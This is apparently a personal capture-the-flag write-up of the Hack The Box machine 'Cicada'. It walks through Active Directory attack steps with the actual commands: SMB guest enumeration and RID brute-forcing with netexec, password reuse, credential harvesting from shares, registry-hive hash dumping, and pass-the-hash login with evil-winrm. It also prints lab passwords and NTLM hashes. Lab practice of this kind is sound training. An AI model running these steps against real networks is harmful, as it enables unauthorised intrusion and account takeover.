







Add to hosts:
echo '10.10.11.35 cicada.htb' \| sudo tee -a /etc/hosts

# Enumeration

nmap scan:

``` ┌──(kali㉿kali)-[~/desktop/cicada]
└─$ sudo nmap -sV  cicada.htb
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-01 15:17 EST
Nmap scan report for cicada.htb (10.10.11.35)
Host is up (0.090s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-02 03:17:27Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.12 seconds
```

A lot of windows'y stuff going on, as we discussed in BHC 445 hosting a SMB service is a classic, but 464 used for Keinrberos password reset also looks interesting!

This page https://0xdf.gitlab.io/cheatsheets/smb-enum lists some tools for SMB hacking

netexec https://www.netexec.wiki/ was recommneded by Johanthan in the BHC slack, and
un 'guest', pw '' works

    nxc smb cicada.htb -u 'guest' -p '' -M spider_plus


We can read the 'HR' folder

Looking for users:
nxc smb cicada.htb -u 'guest' -p '' --rid-brute


\# Initial Foothold
Using smbclient to explore the HR folder

Downloading the "Notice from HR.txt" reveals a default password but no user:

i.e. we have an 'orphan' password Cicada\$M6Corpb\*@Lp#nZp!8

# Lateral movement

## Finding a user for the password:

Collect output from the user name scan above

     nxc smb cicada.htb -u 'guest' -p '' --rid-brute >> ~/Desktop/cicada/smbusers.txt 

And clean it up to only hold the usernames:

    cat ~/Desktop/cicada/smbusers.txt | grep SidTypeUser | awk '{print $6}' | cut -c 8- >> smbusers_clean.txt 

And chew through that list using netexec
nxc smb cicada.htb -u \~/Desktop/cicada/smbusers_clean.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
![[Pasted image 20250201135053.png]]
Reveals that the orphan pw belongs to `michael.wrightson`
and that `david.orelious` has left a note with a pw: `aRt$Lp#7t\*VQ!3\`

### Trying `michael.wrightson`

    nxc smb cicada.htb -u 'michael.wrightsonmichael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares


Accessing michael user using smblient lets us enumerate the shares

No additional access:


### Trying `david.orelious`

pw: aRt$Lp#7t*VQ!3
```
nxc smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t\*VQ!3' --shares


    ![[Pasted image 20250201141812.png]]
    Read acces to 'DEV', messing around with smbclient gives:

smbclient //cicada.htb/DEV -U 'david.orelious' 'aRt\$Lp#7t\*VQ!3'

    ![[Pasted image 20250201141515.png]]
    A Backsupscript:
    ![[Pasted image 20250201142037.png]]
    with yet another user and password
    emily.oscars
    Q!3@Lp#M6b*7t*Vt

    ### Trying emily.oscars

nxc smb cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' --shares


    ![[Pasted image 20250201142908.png]]
    Has access to ADMIN$ and C$

smbclient //cicada.htb/C\$ -U 'emily.oscars' 'Q!3@Lp#M6b*7t*Vt'

    user flag is on emily's Desktop
    ![[Pasted image 20250201143728.png]]
    d3d03d715fe10183d0b513b67ecc91ae

    # Privilege Escalation
    https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/
    see under Load Powershell Script
    Load mimikatz for evil-winrm
    https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1

    - Did NOT work (newer windows are immune to Mimikatz)

    Trying to enumerate hashed passwords using procedure here:
    https://www.varonis.com/blog/exfiltrate-ntlm-hashes


    On the remote, download and save the registry information
    ![[Pasted image 20250201164056.png]]

    extract the hashes using pypykatz

    ![[Pasted image 20250201163845.png]]
    We now have an admin hash to pass, 

HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


    and use evil-winrm in hash mode to gain access

evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
\`\`\`

<figure>

<figcaption
aria-hidden="true">Pastedimage20250201164642.png</figcaption>
</figure>
